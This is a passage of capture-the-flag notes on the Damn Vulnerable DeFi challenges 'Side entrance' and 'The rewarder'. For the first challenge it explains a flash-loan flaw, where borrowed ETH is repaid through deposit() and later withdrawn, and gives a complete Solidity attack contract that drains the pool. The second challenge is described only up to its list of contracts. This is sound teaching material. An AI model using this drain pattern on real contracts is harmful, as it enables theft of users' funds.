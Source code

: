 	
```ad-note
title:# Challenge #4 - Side entrance
A surprisingly simple lending pool allows anyone to deposit ETH, and withdraw it at any point in time.

This very simple lending pool has 1000 ETH in balance already, and is offering free flash loans using the deposited ETH to promote their system.

You must take all ETH from the lending pool.

This contract has 3 function 
- deposit 
 -- used to deposit tokens 
- withdraw
 --  used to withdraw
- flashLoan()
 -- to performe flashLoan
 so the issue here is the deposit function  this function is used to deposit ETH so by performing flashloan and  and returning to the contract through the deposit function we can latter withdraw the ETH 
 ```contract AttackSideEntrance {
    SideEntranceLenderPool pool;
    address payable owner;

    constructor(address _chal) {
        pool = SideEntranceLenderPool(_chal);
        owner = payable(msg.sender);
    }

    function attack(uint256 amount) external {
        pool.flashLoan(amount);
        pool.withdraw();
    }

    function execute() external payable {
        pool.deposit{value: address(this).balance}();
    }

    receive () external payable {
        owner.transfer(address(this).balance);
    }
}
```
```ad-note
title:Challenge #5 - The rewarder

There's a pool offering rewards in tokens every 5 days for those who deposit their DVT tokens into it.

Alice, Bob, Charlie and David have already deposited some DVT tokens, and have won their rewards!

You don't have any DVT tokens. But in the upcoming round, you must claim most rewards for yourself.

Oh, by the way, rumours say a new pool has just landed on mainnet. Isn't it offering DVT tokens in flash loans?

there is 4 smart contracts 
- AccountingToken(Lp)
  -- A limited  ERC20  Token to keep track of deposits and withdraw  with snapshotting capabilities 
- FlashLoanerPool
 --  A simple pool to get flash loans of DVT
- RewardToken
   --  Reward Token 
```